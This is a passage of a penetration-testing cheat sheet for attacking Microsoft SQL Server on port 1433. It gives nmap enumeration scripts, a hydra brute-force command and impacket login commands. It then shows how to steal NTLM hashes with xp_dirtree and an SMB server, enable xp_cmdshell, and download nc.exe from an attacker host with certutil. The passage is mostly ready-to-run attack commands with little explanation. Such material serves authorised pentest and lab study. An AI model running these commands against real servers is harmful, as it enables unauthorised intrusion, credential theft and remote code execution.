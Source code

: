------

## MSSQL - 1433

### Get information

```
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>
```

### Brute force

```
hydra -L <USERS_LIST> -P <PASSWORDS_LIST> <IP> mssql -vV -I -u
```

### Having credentials

```
mssqlclient.py -windows-auth <DOMAIN>/<USER>:<PASSWORD>@<IP>
mssqlclient.py <USER>:<PASSWORD>@<IP>

# Once logged in you can run queries:
SQL> select @@ version;

# Steal NTLM hash
sudo smbserver.py -smb2support liodeus .
SQL> exec master..xp_dirtree '\\<IP>\liodeus\' # Steal the NTLM hash, crack it with john or hashcat

# Try to enable code execution
SQL> enable_xp_cmdshell

# Execute code
SQL> xp_cmdshell whoami /all
SQL> xp_cmdshell certutil.exe -urlcache -split -f http://<IP>/nc.exe
```

### Manual exploit

```
Cheatsheet :
	- https://www.asafety.fr/mssql-injection-cheat-sheet/
```

------

## NFS - 2049

### Show Mountable NFS Shares
